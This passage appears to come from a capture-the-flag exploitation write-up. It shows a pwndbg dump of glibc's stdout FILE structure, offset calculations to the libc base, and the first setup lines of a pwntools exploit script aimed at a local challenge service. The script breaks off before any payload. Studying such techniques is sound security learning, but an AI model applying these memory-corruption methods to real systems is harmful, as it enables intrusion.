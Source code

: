 ```

0x7f41d9c02600 <_IO_2_1_stderr_+192>:	0x0000000000000000	0x0000000000000000

0x7f41d9c02610 <_IO_2_1_stderr_+208>:	0x0000000000000000	0x00007f41d9c006e0

0x7f41d9c02620 <_IO_2_1_stdout_>:	0x00000000fbad2a84	0x00005582e351c010

0x7f41d9c02630 <_IO_2_1_stdout_+16>:	0x00005582e351c010	0x00005582e351c010

0x7f41d9c02640 <_IO_2_1_stdout_+32>:	0x00005582e351c010	0x00005582e351c010

0x7f41d9c02650 <_IO_2_1_stdout_+48>:	0x00005582e351c010	0x00005582e351c010

0x7f41d9c02660 <_IO_2_1_stdout_+64>:	0x00005582e351c410	0x0000000000000000

0x7f41d9c02670 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000

0x7f41d9c02680 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007f41d9c018e0

0x7f41d9c02690 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff

0x7f41d9c026a0 <_IO_2_1_stdout_+128>:	0x0000000000000000	0x00007f41d9c03780

0x7f41d9c026b0 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000

0x7f41d9c026c0 <_IO_2_1_stdout_+160>:	0x00007f41d9c017a0	0x0000000000000000

0x7f41d9c026d0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000

pwndbg> distance 0x7f41d9c025e0 0x7f41d983d000

0x7f41d9c025e0->0x7f41d983d000 is -0x3c55e0 bytes (-0x78abc words)

pwndbg> p 0x7f41d9c025e0 -0x58

$10 = 0x7f41d9c02588

pwndbg> distance 0x7f41d9c02588 0x7f41d983d000

0x7f41d9c02588->0x7f41d983d000 is -0x3c5588 bytes (-0x78ab1 words)

pwndbg> distance  0x7f41d9c025e0 0x7f41d983d000

0x7f41d9c025e0->0x7f41d983d000 is -0x3c55e0 bytes (-0x78abc words)

```



The final exploit script is as follows:

```

from pwn import *

context.log_level="debug"



libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

# p = process('the_end')

p = remote('127.0.0.1',1234)

```